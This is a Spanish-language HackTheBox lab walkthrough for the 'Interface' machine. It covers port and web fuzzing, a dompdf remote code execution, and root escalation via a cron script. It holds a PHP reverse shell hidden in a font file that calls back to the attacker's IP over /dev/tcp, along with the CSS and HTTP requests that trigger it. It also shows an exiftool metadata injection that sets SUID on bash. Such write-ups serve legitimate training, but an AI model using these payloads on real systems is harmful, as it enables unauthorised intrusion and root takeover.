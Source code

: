 ```yaml
---
layout: single
title: Interface - HackTheBox
excerpt: " A box that sees a lot of fuzzing, plus exploits targeting 'dompdf' with relatively easy privilege escalation. "
date: 2023-05-23
classes: wide
header:
  teaser: /blog/assets/images/htb-writeup-interface/interface.png
  teaser_home_page: true
  icon: /blog/assets/images/htb.webp
categories:
  - hackthebox
tags:
  - dompdf
  - NextJS
  - api
  - exiftool
  - metadata
---
```


A box that sees a lot of fuzzing, plus exploits targeting "dompdf" with relatively easy privilege escalation.

# Summary
- IP: 10.129.154.5
- Ports: 22,80
- OS: Linux (Ubuntu)
- Services & Applications:
	-  22 -> OpenSSH 7.6p1 Ubuntu 4ubuntu0.7
	-  80 -> nginx 1.14.0

# Recon

- Escaneo básico de puertos:

```bash
$nmap -p- -sS --open --min-rate 5000 -vvv -n -Pn 10.129.154.5 -oG allPorts
```


- Escaneo profundo de puertos encontrados:

```bash
$nmap -p22,80 -sCV 10.129.154.5 -oN targeted
```


# Análisis de página web:

- Al entrar a la página principal vemos un mensaje pero no nos sirve de nada, analizando el código fuente y haciendo un escaneo típico de directorios tampoco encontramos nada.

- Interceptamos la petición al entrar a la página con Burpsuite y optenemos la siguiente información contemplada dentro de la respuesta del servidor:


```http
Content-Security-Policy: script-src 'unsafe-inline' 'unsafe-eval' 'self' data: https://www.google.com http://www.google-analytics.com/gtm/js https://*.gstatic.com/feedback/ https://ajax.googleapis.com; connect-src 'self' http://prd.m.rendering-api.interface.htb; style-src 'self' 'unsafe-inline' https://fonts.googleapis.com https://www.google.com; img-src https: data:; child-src data:;
```


- Podemos apreciar un subdominio deconocido "prd.m.rendering-api.interface.htb"; lo agregamos al "/etc/hosts".

- Hacemos un escaneo de directorios:

```bash
$gobuster dir -u prd.m.rendering-api.interface.htb -w /usr/share/SecLists/Discovery/Web-Content/common.txt -t 100
```

```
$ffuf -u http://prd.m.rendering-api.interface.htb/api/FUZZ -X POST -w /usr/share/SecLists/Discovery/Web-Content/raft-medium-directories-lowercase.txt -mc all -fs 50
```

Encontramos "/vendor" y "/api/html2pdf"

```bash
$gobuster dir -u prd.m.rendering-api.interface.htb/vendor -w /usr/share/dirb/wordlists/big.txt -t 100
```

Encontramos "/vendor/dompdf"

- Con esta información podemos deducir que la página implementa "dompf" por detrás, buscamos vulnerabilidades para esto y encontramos lo siguiente:

[Exploiting RCE Vulnerability in Dompdf | Optiv](https://www.optiv.com/insights/source-zero/blog/exploiting-rce-vulnerability-dompdf)

- Bingo! un RCE; llevamos a cabo el exploit.


# Exploit dompdf RCE:

- Primero, descargamos cualquier archivo font ".ttf" que encontremos por internet, y lo renombraremos a "exploit_font.php"; a este mismo archivo renombrado le agregamos una linea al final el cual contendrá el comando de la reverse shell:

```
<?php exec("/bin/bash -c 'bash -i >& /dev/tcp/10.10.15.129/443 0>&1'");?>
```

- Luego, creamos un archivo "exploit.css" con el siguiente contenido:

```
@font-face {
    font-family:'exploitfont';
    src:url('http://ipatacante/exploit_font.php');
    font-weight:'normal';
    font-style:'normal';
}
```

- Después de haber creado estos archivos, nos montamos un servidor http con python en el puerto 80 para que sean accesibles via web.

```bash
$python3 -m http.server 80
```

- Ahora, enviamos una POST request a /api/html2pdf (en este caso lo hice en el repeater de Burpsuite) con la siguiente estructura:

```http
POST /api/html2pdf HTTP/1.1
Host: prd.m.rendering-api.interface.htb
Content-Type: application/json
Content-Length: 79
{
 "html":"<link rel=stylesheet href='http://10.10.15.129:80/exploit.css'>"
}
```

- Hecho esto, debemos localizar el archivo que por detrás se subió, el cual sería el "exploit_font.php"; de acuerdo al artículo, lo podemos localizar en la ruta "/vendor/dompdf/dompdf/lib/fonts/" con un nombre pre formateado por el servidor.

- Para descifrar el nombre que se le adjudicó al archivo por detrás, primero debemos tener en cuenta que tendrá el siguiente formato:

```
exploitfont_normal_hashmd5.php
```

- Donde el "hashmd5" será el archivo "exploit_font.php" que hemos creado, para esto, convertimos en hash la URL que nos dirige a tal archivo:

```bash
$echo -n "http://yourip/exploit_font.php" | md5sum
```

- Obtenemos el hash, entonces el formato del archivo que se guardó por detrás del servidor quedaría de la siguiente manera:

```
exploitfont_normal_4e5e34308ba36fe6d12beda1473f05e5.php
```

- Nos ponemos en escucha por el puerto 443 en nuestra máquina atacante.

- Por último, enviamos una petición GET a la dirección del archivo, tomando en cuenta el formato que hemos armado:


```
GET /vendor/dompdf/dompdf/lib/fonts/exploitfont_normal_4e5e34308ba36fe6d12beda1473f05e5.php cd HTTP/1.1
Host: prd.m.rendering-api.interface.htb
```

- Con todo esto, habremos ganado acceso al sistema como "www-data".


# ESCALANDO PRIVILEGIOS:


- Transferimos el binario de "pspy64" a la máquina víctima y escaneamos los procesos que se están ejecutando por detrás de la máquina, dándonos como resultado lo siguiente:

```bash
2023/02/14 04:35:05 CMD: UID=0     PID=1      | /sbin/init maybe-ubiquity 
2023/02/14 04:36:01 CMD: UID=0     PID=5679   | /bin/bash /usr/local/sbin/cleancache.sh 
2023/02/14 04:36:01 CMD: UID=0     PID=5678   | /bin/sh -c /usr/local/sbin/cleancache.sh
```

- Como podemos ver, el usuario root (UID=0) está ejecutando la script "cleancache.sh" cada cierto tiempo, analizamos dicha script:

```bash
#! /bin/bash
cache_directory="/tmp"
for cfile in "$cache_directory"/*; do
    if [[ -f "$cfile" ]]; then
        meta_producer=$(/usr/bin/exiftool -s -s -s -Producer "$cfile" 2>/dev/null | cut -d " " -f1)
        if [[ "$meta_producer" -eq "dompdf" ]]; then
            echo "Removing $cfile"
            rm "$cfile"
        fi
    fi
done
```

- La script obtiene el valor de "producer" de los metadatos de los archivos alojados en el directorio  "/tmp" y lo compara con "dompdf".

- Dado que podemos controlar los metadatos de los archivos, podemos controlar qué es $meta_producer y podemos usarlo para inyectar comandos.

- Entonces creamos un archivo "pwned.sh" en un directorio en el que tengamos permisos de escritura, en este caso podemos hacerlo en "dev/shm/" y le damos permisos de ejecución:

```bash
$touch /dev/shm/pwned.sh
$nano /dev/shm/pwned.sh
```

```
chmod u+s /bin/bash
```

```bash
$chmod +x /dev/shm/pwned.sh
```

- Ahora creamos un archivo "pwned" en el directorio "/tmp" y modificamos los metadatos con el fin de que ejecute el comando de la script que cabamos de crear:

```bash
$touch /tmp/pwned
$exiftool -Producer='a[$(/dev/shm/pwned.sh>&2)]+42' /tmp/pwned
```

- Ejecutamos la script "cleancache.sh" dado que tenemos permisos de ejecución.

```bash
$./cleancache.sh
```

- Y por último ejecutamos la bash con privilegios y seremos root:

```bash
$bash -p
```
